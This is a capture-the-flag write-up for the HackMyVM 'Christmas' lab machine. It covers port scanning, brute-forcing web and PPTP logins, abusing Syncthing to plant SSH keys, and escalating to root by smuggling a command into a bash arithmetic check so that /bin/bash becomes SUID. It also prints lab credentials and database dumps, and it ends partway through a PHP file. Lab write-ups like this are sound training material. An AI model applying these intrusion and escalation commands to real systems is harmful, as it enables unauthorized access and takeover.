

# writeup christmas hackmyvm

## machine info
- VmName : Christmas
- Creator : cromiphi
- Level : hard
- Link : [https://downloads.hackmyvm.eu/christmas.zip](https://downloads.hackmyvm.eu/christmas.zip)

## walkthrough
### summary
- get a username from website (http://christmas.hmv/).
- get a password of user (admin) using pptp brute force attack.
- scan open ports of a vpn interface.
- get a user shell (mr-jack) using syncthing website (http://192.168.3.1:8384).
- get a root shell using using sudo command.

### get machine ip address
```
sudo netdiscover -i eth0 -r 192.168.0.0/24
```


### scan open ports
```
> sudo nmap -sS -n -Pn -p- --min-rate="5000" 192.168.0.26
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-24 17:10 EST
Nmap scan report for 192.168.0.26
Host is up (0.00029s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1723/tcp open  pptp
MAC Address: 08:00:27:2D:47:C3 (Oracle VirtualBox virtual NIC)

> sudo nmap -sCV -n -Pn -p22,80,1723 192.168.0.26   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-24 17:11 EST
Nmap scan report for 192.168.0.26
Host is up (0.00073s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 dd:83:da:cb:45:d3:a8:ea:c6:be:19:03:45:76:43:8c (ECDSA)
|_  256 e5:5f:7f:25:aa:c0:18:04:c4:46:98:b3:5d:a5:2b:48 (ED25519)
80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Massively by HTML5 UP
|_http-server-header: Apache/2.4.57 (Debian)
| http-robots.txt: 4 disallowed entries 
|_/ /webid /images /assets
1723/tcp open  pptp    linux (Firmware: 1)
MAC Address: 08:00:27:2D:47:C3 (Oracle VirtualBox virtual NIC)
Service Info: Host: local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.36 seconds
```

### get a user shell
I checked out a website (http://192.168.0.26).


- whatweb
```
> whatweb http://192.168.0.26/  
http://192.168.0.26/ [200 OK] Apache[2.4.57], Country[RESERVED][ZZ], Email[admin@christmas.hmv], HTML5, HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[192.168.0.26], JQuery, Script, Title[Massively by HTML5 UP]
```
I could get a username (admin) and domainname (christmas.hmv).

- ffuf
```
ffuf -ic -H "User-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0" -u http://192.168.0.26/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .html,.htm,.js,.xml,.yaml,.txt,.log,.php,.bak,.php.bak,.config,.zip,.gz,.7z,.pdf,.jpg -mc 200,204,301,302,307,401,403,405,500,501,502,503,504,505

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.0.26/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Header           : User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
 :: Extensions       : .html .htm .js .xml .yaml .txt .log .php .bak .php.bak .config .zip .gz .7z .pdf .jpg 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500,501,502,503,504,505
________________________________________________

.php                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3ms]
index.php               [Status: 200, Size: 8958, Words: 498, Lines: 223, Duration: 7ms]
login.php               [Status: 200, Size: 2092, Words: 702, Lines: 67, Duration: 10ms]
.htm                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 251ms]
.html                   [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 259ms]
                        [Status: 200, Size: 8958, Words: 498, Lines: 223, Duration: 314ms]
images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 1205ms]
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 3ms]
generic.php             [Status: 200, Size: 5909, Words: 428, Lines: 126, Duration: 14ms]
elements.php            [Status: 200, Size: 22063, Words: 1370, Lines: 498, Duration: 17ms]
robots.txt              [Status: 200, Size: 79, Words: 6, Lines: 6, Duration: 2ms]
.html                   [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 10ms]
                        [Status: 200, Size: 8958, Words: 498, Lines: 223, Duration: 10ms]
.htm                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 10ms]
.php                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 10ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 7ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

- curl (http://christmas.hmv/robots.txt)
```
> curl http://192.168.0.26/robots.txt 
User-agent: *
Disallow: /
Disallow: /webid
Disallow: /images
Disallow: /assets
```

I could get a login page (http://christmas.hmv/login.php).


I tried brute force attack of the login page. But I could not log in to admin account.
```
> hydra -l admin -P /usr/share/wordlists/rockyou.txt christmas.hmv http-post-form "/login.php:username=^USER^&password=^PASS^:H=Cookie\: PHPSESSID=llrbnaflnhs054ff29thf3shal:F=Bad credentials." -V -f -t 64
```

I could not find a subdomain website.
- wfuzz (subdomain)
```
> wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://christmas.hmv" -H "HOST: FUZZ.christmas.hmv" -t 100 -Z --hh 8958
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://christmas.hmv/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                    
=====================================================================

000009532:   400        10 L     35 W       305 Ch      "#www - #www"                                                              
000010581:   400        10 L     35 W       305 Ch      "#mail - #mail"                                                            
000047706:   400        10 L     35 W       305 Ch      "#smtp - #smtp"                                                            
000103135:   400        10 L     35 W       305 Ch      "#pop3 - #pop3"                                                            

Total time: 0
Processed Requests: 114441
Filtered Requests: 114437
Requests/sec.: 0
```

I tried pptp brute force attack (1723/tcp).

- [PPTP-bruteforce](https://github.com/Brakerciti/PPTP-bruteforce)
```
> nano PPTP-bruteforce/brute_script.sh
# Define the connection details
#pptp_connection="your_pptp_connection_name"
pptp_connection="pptp_bruteforce"

...

# Check if the connection was successful
if ifconfig | grep -q "ppp0"; then
  echo "success $username $password "
  connection_success=true
  exit

> head -1000 /usr/share/wordlists/rockyou.txt > /tmp/pass_1000.txt
> sudo PPTP-bruteforce/brute_script.sh user.txt /tmp/pass_1000.txt 192.168.0.26

...

failed admin ********
failed admin ********
success admin p*******a 
```

I could get a admin password and connect to a vpn.
```
> ip a
139: ppp0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1496 qdisc fq_codel state UNKNOWN group default qlen 3
    link/ppp 
    inet 192.168.3.100 peer 192.168.3.1/32 scope global ppp0
       valid_lft forever preferred_lft forever
    inet6 fe80::51b5:c54c:1cf1:9267 peer fe80::c9b8:7e14:cb18:9d2d/128 scope link 
       valid_lft forever preferred_lft forever

> sudo nmap -sS -n -Pn -p- --min-rate="5000" 192.168.3.1  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-24 20:18 EST
Nmap scan report for 192.168.3.1
Host is up (0.0042s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
1723/tcp  open  pptp
8384/tcp  open  marathontp
22000/tcp open  snapenetio

Nmap done: 1 IP address (1 host up) scanned in 8.10 seconds

> sudo nmap -sCV -n -Pn -p21,22,80,1723,8384,22000 192.168.3.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-24 20:20 EST
Nmap scan report for 192.168.3.1
Host is up (0.0060s latency).

PORT      STATE SERVICE         VERSION
21/tcp    open  ftp             vsftpd 2.0.8 or later
22/tcp    open  ssh             OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 dd:83:da:cb:45:d3:a8:ea:c6:be:19:03:45:76:43:8c (ECDSA)
|_  256 e5:5f:7f:25:aa:c0:18:04:c4:46:98:b3:5d:a5:2b:48 (ED25519)
80/tcp    open  http            Apache httpd 2.4.57 ((Debian))
|_http-title: Massively by HTML5 UP
|_http-server-header: Apache/2.4.57 (Debian)
| http-robots.txt: 4 disallowed entries 
|_/ /webid /images /assets
1723/tcp  open  pptp            linux (Firmware: 1)
8384/tcp  open  ssl/marathontp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: no-cache, must-revalidate
|     Content-Length: 68286
|     Content-Type: text/html; charset=utf-8
|     Etag: "6588d17d"
|     Last-Modified: Mon, 25 Dec 2023 00:49:01 GMT
|     Set-Cookie: CSRF-Token-X3SKS=qTVENnXsaLajSMFrgwyK3CX6TpDcLyYL
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     X-Syncthing-Id: X3SKSGN-6VA75ER-YA5YMUP-2CBKEYT-63C2AYG-VMNZIUP-TGJQUPG-67DNHAC
|     X-Syncthing-Version: v1.19.2-ds1
|     X-Xss-Protection: 1; mode=block
|     Date: Mon, 25 Dec 2023 01:21:30 GMT
|     <!DOCTYPE html>
|     <!--
|     Copyright (C) 2014 The Syncthing Authors.
|     This Source Code Form is subject to the terms of the Mozilla Public
|     License, v. 2.0. If a copy of the MPL was not distributed with this file,
|     obtain one at https://mozilla.org/MPL/2.0/.
|     <html lang="en" ng-app="syncthing" ng-controller="SyncthingController">
|     <head>
|     <meta charset="utf-8"/>
|     <meta http-equiv="
|   HTTPOptions: 
|     HTTP/1.0 204 No Content
|     Access-Control-Allow-Headers: Content-Type, X-API-Key
|     Access-Control-Allow-Methods: GET, POST, PUT, PATCH, DELETE, OPTIONS
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 600
|_    Date: Mon, 25 Dec 2023 01:21:34 GMT
| ssl-cert: Subject: commonName=debian/organizationName=Syncthing
| Subject Alternative Name: DNS:debian
| Not valid before: 2023-11-13T00:00:00
|_Not valid after:  2026-02-10T00:00:00
22000/tcp open  ssl/snapenetio?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=syncthing/organizationName=Syncthing
| Subject Alternative Name: DNS:syncthing
| Not valid before: 2023-11-13T00:00:00
|_Not valid after:  2043-11-08T00:00:00
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8384-TCP:V=7.94SVN%T=SSL%I=7%D=12/24%Time=6588D919%P=x86_64-pc-linu
SF:x-gnu%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-
SF:Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n40
SF:0\x20Bad\x20Request")%r(GetRequest,10CB0,"HTTP/1\.0\x20200\x20OK\r\nCac
SF:he-Control:\x20no-cache,\x20must-revalidate\r\nContent-Length:\x2068286
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nEtag:\x20\"6588d17d
SF:\"\r\nLast-Modified:\x20Mon,\x2025\x20Dec\x202023\x2000:49:01\x20GMT\r\
SF:nSet-Cookie:\x20CSRF-Token-X3SKS=qTVENnXsaLajSMFrgwyK3CX6TpDcLyYL\r\nX-
SF:Content-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX
SF:-Syncthing-Id:\x20X3SKSGN-6VA75ER-YA5YMUP-2CBKEYT-63C2AYG-VMNZIUP-TGJQU
SF:PG-67DNHAC\r\nX-Syncthing-Version:\x20v1\.19\.2-ds1\r\nX-Xss-Protection
SF::\x201;\x20mode=block\r\nDate:\x20Mon,\x2025\x20Dec\x202023\x2001:21:30
SF:\x20GMT\r\n\r\n<!DOCTYPE\x20html>\n<!--\n//\x20Copyright\x20\(C\)\x2020
SF:14\x20The\x20Syncthing\x20Authors\.\n//\n//\x20This\x20Source\x20Code\x
SF:20Form\x20is\x20subject\x20to\x20the\x20terms\x20of\x20the\x20Mozilla\x
SF:20Public\n//\x20License,\x20v\.\x202\.0\.\x20If\x20a\x20copy\x20of\x20t
SF:he\x20MPL\x20was\x20not\x20distributed\x20with\x20this\x20file,\n//\x20
SF:You\x20can\x20obtain\x20one\x20at\x20https://mozilla\.org/MPL/2\.0/\.\n
SF:\n-->\n<html\x20lang=\"en\"\x20ng-app=\"syncthing\"\x20ng-controller=\"
SF:SyncthingController\">\n<head>\n\x20\x20<meta\x20charset=\"utf-8\"/>\n\
SF:x20\x20<meta\x20http-equiv=\"")%r(HTTPOptions,FA,"HTTP/1\.0\x20204\x20N
SF:o\x20Content\r\nAccess-Control-Allow-Headers:\x20Content-Type,\x20X-API
SF:-Key\r\nAccess-Control-Allow-Methods:\x20GET,\x20POST,\x20PUT,\x20PATCH
SF:,\x20DELETE,\x20OPTIONS\r\nAccess-Control-Allow-Origin:\x20\*\r\nAccess
SF:-Control-Max-Age:\x20600\r\nDate:\x20Mon,\x2025\x20Dec\x202023\x2001:21
SF::34\x20GMT\r\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20c
SF:lose\r\n\r\n400\x20Bad\x20Request")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnecti
SF:on:\x20close\r\n\r\n400\x20Bad\x20Request");
Service Info: Hosts: Welcome, local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.71 seconds
```

- ftp
```
> ftp 192.168.3.1 
Connected to 192.168.3.1.
220 Welcome to the christmas.hmv FTP server. Please note that the primary FTP directory is located at /srv/ftp. All activities on this server are monitored and logged. Ensure compliance with our terms of use. Enjoy your session!
Name (192.168.3.1:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> exit
221 Goodbye.

> ftp 192.168.3.1
Connected to 192.168.3.1.
220 Welcome to the christmas.hmv FTP server. Please note that the primary FTP directory is located at /srv/ftp. All activities on this server are monitored and logged. Ensure compliance with our terms of use. Enjoy your session!
Name (192.168.3.1:kali): admin
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
ftp> exit
221 Goodbye.

```

I checked out a website (syncthing, http://192.168.3.1:8384).
- syncthing


I installed syncthing software on attacker machine (kali) and tried syncing a .ssh directory of mr-jack.

```
> sudo apt install syncthing 
> sudo systemctl start syncthing@${USER}.service
> mkdir ssh
> ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): /home/kali/hackmyvm/christmas/ssh/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/hackmyvm/christmas/ssh/id_rsa
Your public key has been saved in /home/kali/hackmyvm/christmas/ssh/id_rsa.pub
The key fingerprint is:
SHA256:D4HYoB1iIQ/4jb2yj+JlI2UtEW/f86pD4nWpfYZPs/4 kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|+ +oo            |
|.= +o= .         |
| .o=ooo .        |
|  o * . ..       |
|   + o .So.      |
|  + o. o =o      |
| . *. + + o+     |
|. =... o oooo    |
|.o...  .o.=+.E   |
+----[SHA256]-----+

> cat id_rsa.pub > authorized_keys
> ls    
authorized_keys  id_rsa  id_rsa.pub

> chmod 644 authorized_keys
```


I could get a user shell (mr-jack) and a user flag (mr-jack). 😺
```
> ssh mr-jack@192.168.0.26 -i id_rsa            
Linux christmas.hmv 6.1.0-13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.55-1 (2023-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

> id
uid=1000(mr-jack) gid=1000(mr-jack) groups=1000(mr-jack)

> ls -la
total 392
drwxr-xr-x  6 mr-jack mr-jack   4096 Jan 12 01:12 .
drwxr-xr-x  3 root    root      4096 Nov 13 16:55 ..
lrwxrwxrwx  1 root    root         9 Nov 18 12:58 .bash_history -> /dev/null
-rw-r--r--  1 mr-jack mr-jack    220 Dec 25 00:00 .bash_logout
-rw-r--r--  1 mr-jack mr-jack   3526 Dec 25 00:00 .bashrc
drwxr-xr-x  4 mr-jack mr-jack   4096 Dec 25 00:00 .config
drwxr-xr-x  3 mr-jack mr-jack   4096 Dec 25 00:00 .local
drwxr-xr-x 12 mr-jack mr-jack   4096 Dec 25 00:00 .oh-my-zsh
-rw-r--r--  1 mr-jack mr-jack    807 Dec 25 00:00 .profile
drwx------  3 mr-jack mr-jack   4096 Jan 12 01:11 .ssh
-rwx------  1 mr-jack mr-jack     33 Dec 25 00:00 user.txt
-rw-r--r--  1 mr-jack mr-jack  51816 Nov 17 18:22 .zcompdump-christmas-5.9
-r--r--r--  1 mr-jack mr-jack 119928 Nov 17 18:22 .zcompdump-christmas-5.9.zwc
-rw-r--r--  1 mr-jack mr-jack  51816 Dec 25 00:00 .zcompdump-debian-5.9
-r--r--r--  1 mr-jack mr-jack 119920 Dec 25 00:00 .zcompdump-debian-5.9.zwc
-rw-------  1 mr-jack mr-jack     40 Jan 12 01:12 .zsh_history
-rw-r--r--  1 mr-jack mr-jack   3890 Dec 25 00:00 .zshrc

> cat user.txt 
c******************************0
```

### get a root shell

I executed sudo command.
```
> sudo -l
Matching Defaults entries for mr-jack on christmas:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mr-jack may run the following commands on christmas:
    (ALL : ALL) NOPASSWD: /opt/GiftPursuit

> cat /opt/GiftPursuit        
#!/bin/bash

if [[ "$#" -eq 0 ]] ; then
  echo "🎄🎄🎄🎄🎄🎄🎄🎄🎄"
  echo -e "\nUsage: $0 number\n"
  echo "🎄🎄🎄🎄🎄🎄🎄🎄🎄"
  exit 1
fi  

NUMBER=$(openssl rand -hex 45 |tr -dc "0-9" |head -c 40)

if [[ "${NUMBER}" -eq "${1}" ]] ; then 
  echo "Here's your Christmas gift !"
  chmod o+s /bin/bash
else
  echo "No ! If you want a gift, try hard !"
  exit 1
fi
```

So, I executed the script.
```
> sudo -u root /opt/GiftPursuit 'x[$(chmod +s /bin/bash)]'
No ! If you want a gift, try hard !

> ls -l /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```


I could get a root shell and a root flag. 😺
```
> /bin/bash -p
> id
uid=1000(mr-jack) gid=1000(mr-jack) euid=0(root) egid=0(root) groups=0(root),1000(mr-jack)

> cd /root
> ls -la
total 220
drwx------  6 root root   4096 Jan 11 23:18 .
drwxr-xr-x 18 root root   4096 Nov 10 18:55 ..
lrwxrwxrwx  1 root root      9 Jun 15  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root    571 Dec 25 00:00 .bashrc
drwx------  3 root root   4096 Dec 25 00:00 .config
-rw-------  1 root root     20 Nov 18 16:44 .lesshst
drwxr-xr-x  3 root root   4096 Nov 18 10:45 .local
-rw-------  1 root root    190 Nov 18 08:50 .mysql_history
drwxr-xr-x 12 root root   4096 Dec 25 00:00 .oh-my-zsh
-rw-r--r--  1 root root    161 Dec 25 00:00 .profile
-rwx------  1 root root     33 Dec 25 00:00 root.txt
drwx------  2 root root   4096 Nov 18 10:44 .ssh
-rw-r--r--  1 root root  51768 Nov 17 19:35 .zcompdump-christmas-5.9
-r--r--r--  1 root root 119912 Nov 17 19:35 .zcompdump-christmas-5.9.zwc
-rw-r--r--  1 root root   3890 Dec 25 00:00 .zshrc

> cat root.txt
9******************************a
```

## extras
At first, I thought GiftPursuit script was rabbit hole.
```
> sudo -u root /opt/GiftPursuit NUMBER                    
Here's your Christmas gift !
```

So, I decided to find out other things.
- /srv/ftp
```
> cd /srv/ftp
> ls -la
total 9720
drwxrwxr-x 2 root mr-jack    4096 Nov 18 12:55 .
drwxr-xr-x 3 root mr-jack    4096 Dec 25 00:00 ..
-rw-r--r-- 1 root mr-jack 9941249 Dec 25 00:00 backup.zip

> unzip backup.zip
Archive:  backup.zip
   creating: assets/
   creating: assets/js/
  inflating: assets/js/jquery.scrolly.min.js  
  inflating: assets/js/main.js       
  inflating: assets/js/browser.min.js  
  inflating: assets/js/jquery.min.js  
  inflating: assets/js/breakpoints.min.js  
  inflating: assets/js/util.js       
  inflating: assets/js/jquery.scrollex.min.js  
   creating: assets/webfonts/
  inflating: assets/webfonts/fa-brands-400.woff  
  inflating: assets/webfonts/fa-regular-400.ttf  
  inflating: assets/webfonts/fa-solid-900.woff  
  inflating: assets/webfonts/fa-brands-400.ttf  
 extracting: assets/webfonts/fa-regular-400.woff2  
  inflating: assets/webfonts/fa-brands-400.svg  
  inflating: assets/webfonts/fa-solid-900.svg  
  inflating: assets/webfonts/fa-solid-900.eot  
  inflating: assets/webfonts/fa-solid-900.ttf  
  inflating: assets/webfonts/fa-regular-400.eot  
  inflating: assets/webfonts/fa-regular-400.svg  
  inflating: assets/webfonts/fa-brands-400.woff2  
  inflating: assets/webfonts/fa-regular-400.woff  
  inflating: assets/webfonts/fa-brands-400.eot  
  inflating: assets/webfonts/fa-solid-900.woff2  
   creating: assets/sass/
   creating: assets/sass/components/
  inflating: assets/sass/components/_table.scss  
  inflating: assets/sass/components/_image.scss  
  inflating: assets/sass/components/_form.scss  
  inflating: assets/sass/components/_box.scss  
  inflating: assets/sass/components/_row.scss  
  inflating: assets/sass/components/_icons.scss  
  inflating: assets/sass/components/_icon.scss  
  inflating: assets/sass/components/_button.scss  
  inflating: assets/sass/components/_list.scss  
  inflating: assets/sass/components/_pagination.scss  
  inflating: assets/sass/components/_actions.scss  
  inflating: assets/sass/components/_section.scss  
  inflating: assets/sass/main.scss   
  inflating: assets/sass/noscript.scss  
   creating: assets/sass/libs/
  inflating: assets/sass/libs/_functions.scss  
  inflating: assets/sass/libs/_vendor.scss  
  inflating: assets/sass/libs/_vars.scss  
  inflating: assets/sass/libs/_mixins.scss  
  inflating: assets/sass/libs/_breakpoints.scss  
  inflating: assets/sass/libs/_html-grid.scss  
  inflating: assets/sass/libs/_fixed-grid.scss  
   creating: assets/sass/base/
  inflating: assets/sass/base/_typography.scss  
  inflating: assets/sass/base/_reset.scss  
  inflating: assets/sass/base/_page.scss  
   creating: assets/sass/layout/
  inflating: assets/sass/layout/_nav.scss  
  inflating: assets/sass/layout/_wrapper.scss  
  inflating: assets/sass/layout/_navPanel.scss  
  inflating: assets/sass/layout/_main.scss  
  inflating: assets/sass/layout/_footer.scss  
  inflating: assets/sass/layout/_header.scss  
  inflating: assets/sass/layout/_intro.scss  
   creating: assets/css/
  inflating: assets/css/fontawesome-all.min.css  
  inflating: assets/css/main.css     
  inflating: assets/css/noscript.css  
  inflating: elements.php            
  inflating: generic.php             
   creating: images/
  inflating: images/pic09.jpg        
  inflating: images/pic01.jpg        
  inflating: images/pic06.jpg        
  inflating: images/pic02.jpg        
  inflating: images/pic08.jpg        
  inflating: images/overlay.png      
  inflating: images/pic03.jpg        
  inflating: images/pic04.jpg        
  inflating: images/bg.jpg           
  inflating: images/pic05.jpg        
  inflating: images/pic07.jpg        
  inflating: index.php               
  inflating: login.php               
  inflating: robots.txt 
```

- /var/www/html
```
> cd /var/www/html 
> ls -la
total 76
drwxr-xr-x  5 www-data www-data  4096 Nov 18 16:37 .
drwxr-xr-x  3 root     root      4096 Dec 25 00:00 ..
-rw-r--r--  1 www-data www-data  2333 Dec 25 00:00 2fa.php
drwxrwxr-x  6 www-data www-data  4096 Dec 25 00:00 assets
-rw-rw-r--  1 www-data www-data 22063 Dec 25 00:00 elements.php
-rw-rw-r--  1 www-data www-data  5909 Dec 25 00:00 generic.php
drwxrwxr-x  2 www-data www-data  4096 Dec 25 00:00 images
-rw-rw-r--  1 www-data www-data  8958 Dec 25 00:00 index.php
-rw-r--r--  1 www-data www-data  2659 Dec 25 00:00 login.php
-rw-r--r--  1 www-data www-data    79 Dec 25 00:00 robots.txt
drwxr-xr-x 12 www-data www-data  4096 Dec 25 00:00 webid

> cat login.php
...
$usernameValid = "admin";
$passwordValid = "MyPassword1@2023*";
...

> cat 2fa.php
...
if (isset($_POST['code'])) {
    if ($_POST['code'] === "9872234065358987654322346789876543") {
        $_SESSION['2fa_passed'] = true;

        setcookie("2FA_passed", "true", time() + 3600, "/");

        header('Location: ./webid/admin/login.php');
        exit;
    } else {
        echo "<p>Wrong 2FA code.</p>";
    }
}
...
```


I could not log in to the website (http://christmas.hmv/webid/admin/login.php).
I decided to check a database.

- /var/www/html/webid
```
> cat includes/config.inc.php 
<?php
$DbHost  = "localhost";
$DbDatabase = "webid";
$DbUser  = "webiduser";
$DbPassword = "WtPTIC4FhCLnR7";
$DBPrefix       = "webid_";
$main_path = "/var/www/html/webid/";
$MD5_PREFIX = "267f50041fb67d158f195ac85c364875";
?>
```

- mysql
```
> mysql -uwebiduser -pWtPTIC4FhCLnR7
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 38
Server version: 10.11.4-MariaDB-1~deb12u1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| webid              |
+--------------------+
2 rows in set (0.003 sec)

MariaDB [(none)]> use webid
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [webid]> show tables;
+-----------------------------+
| Tables_in_webid             |
+-----------------------------+
| webid_accesseshistoric      |
| webid_accounts              |
| webid_adminusers            |
| webid_auccounter            |
| webid_auction_moderation    |
| webid_auction_types         |
| webid_auctions              |
| webid_banners               |
| webid_bannerscategories     |
| webid_bannerskeywords       |
| webid_bannersstats          |
| webid_bannersusers          |
| webid_bids                  |
| webid_categories            |
| webid_categories_translated |
| webid_comm_messages         |
| webid_community             |
| webid_community_translated  |
| webid_counters              |
| webid_countries             |
| webid_countries_translated  |
| webid_currentaccesses       |
| webid_currentbrowsers       |
| webid_currentplatforms      |
| webid_durations             |
| webid_durations_translated  |
| webid_faqs                  |
| webid_faqs_translated       |
| webid_faqscat_translated    |
| webid_faqscategories        |
| webid_feedbacks             |
| webid_fees                  |
| webid_filterwords           |
| webid_groups                |
| webid_groups_translated     |
| webid_increments            |
| webid_logs                  |
| webid_membertypes           |
| webid_messages              |
| webid_news                  |
| webid_news_translated       |
| webid_online                |
| webid_payment_options       |
| webid_pendingnotif          |
| webid_proxybid              |
| webid_rates                 |
| webid_rememberme            |
| webid_reportedauctions      |
| webid_settings              |
| webid_statssettings         |
| webid_tax                   |
| webid_useraccounts          |
| webid_usergateways          |
| webid_users                 |
| webid_usersips              |
| webid_winners               |
+-----------------------------+
56 rows in set (0.004 sec)

MariaDB [webid]> select * from webid_adminusers;
+----+----------+--------------------------------------------------------------+---------------+-------+---------------------+---------------------+--------+-------+
| id | username | password                                                     | password_type | hash  | created             | lastlogin           | status | notes |
+----+----------+--------------------------------------------------------------+---------------+-------+---------------------+---------------------+--------+-------+
|  1 | admin    | $2a$08$OxK.g.CGK7wxsxJEOPovr.pJtjCfs31x/oPBReHE8U7RW6laYCge. |             1 | st82m | 2023-11-13 10:51:51 | 2023-11-18 08:40:05 |      1 | NULL  |
+----+----------+--------------------------------------------------------------+---------------+-------+---------------------+---------------------+--------+-------+
1 row in set (0.001 sec)
```

I could get a password hash of admin. But I could not get a admin password using john.
So, I tried creating a new password hash using a program (/var/www/html/webid/includes/packages/PasswordHash.php) and updating admin's password hash.

- update password hash
```
> cat PasswordHash.php
<?php
#
# Portable PHP password hashing framework.
#
# Version 0.3 / genuine.
#
# Written by Solar Designer <solar at openwall.com> in 2004-2006 and placed in
# the public domain.  Revised in subsequent years, still public domain.
#
# There's absolutely no warranty.
#
# The homepage URL for this framework is:
#
#       http://www.openwall.com/phpass/
#
# Please be sure to update the Version line if you edit this file in any way.
# It is suggested that you leave the main version number intact, but indicate
# your project name (after the slash) and add your own revision information.
#
# Please do not change the "private" password hashing method implemented in
# here, thereby making your hashes incompatible.  However, if you must, please
# change the hash type identifier (the "$P$") to something different.
#
# Obviously, since this code is in the public domain, the above are not
# requirements (there can be none), but merely suggestions.
#
class PasswordHash {
        var $itoa64;
        var $iteration_count_log2;
        var $portable_hashes;
        var $random_state;

